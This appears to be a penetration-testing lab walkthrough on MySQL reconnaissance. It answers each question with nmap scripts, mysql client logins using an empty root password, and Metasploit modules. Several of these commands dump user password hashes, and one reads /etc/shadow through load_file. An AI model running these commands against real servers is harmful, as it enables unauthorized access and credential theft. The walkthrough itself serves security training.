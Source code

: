 
#
---

# MySQL Recon: Basics

1.  What is the version of MySQL server?
```
nmap [ip] -sV -sC
```
- MySQL 5.5.62-0ubuntu0.14.04.1

3.  What command is used to connect to remote MySQL database?
```
mysql -u [username] -h [ip] -p
```

5.  How many databases are present on the database server?
```
show databases;
```

7.  How many records are present in table “authors”? This table is present inside the “books” database.
```
use books;

select * from authors;
```

9.  Dump the schema of all databases from the server using suitable metasploit module?
```
auxiliary(scanner/mysql/mysql_schemadump) // also provides a .txt file with it;
```

11.  How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
```
auxiliary(scanner/mysql/mysql_writable_dirs)

```

13.  How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
```
auxiliary(scanner/mysql/mysql_file_enum)

```

15.  Find the system password hash for user "root".
```
mysql -u root -h [id]
select load_file('/etc/shadow');
```

17.  How many database users are present on the database server? Lists their names and password hashes.
```
auxiliary(scanner/mysql/mysql_hashdump)
```

19.  Check whether anonymous login is allowed on MySQL Server.
```
mysql -h 192.82.22.3

nmap [ip] -p 3306 --script=mysql-empty-password
```

21.  Check whether “InteractiveClient” capability is supported on the MySQL server.
```
nmap 192.12.132.3 -p 3306 --script=mysql-info
```

23.  Enumerate the users present on MySQL database server using mysql-users nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-users --script-args="mysqluser=root,mysqlpass=''"
```

25.  List all databases stored on the MySQL Server using nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-databases --script-args="mysqluser=root,mysqlpass=''"
```

27.  Find the data directory used by mysql server using nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-variables --script-args="mysqluser=root,mysqlpass=''"
```

29.  Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
```
nmap 192.12.132.3 -p 3306 --script=mysql-audit --script-args="mysql-audit.username=root,mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```
31.  Dump all user hashes using  nmap script.
```
nmap --script mysql-dump-hashes --script-args='username=root,password=""' -p 3306 192.12.132.3
```
33.  Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.
```
nmap --script mysql-query --script-args="query ='select * from books.authors;',username='root',password=''" -p 3306 192.12.132.3
```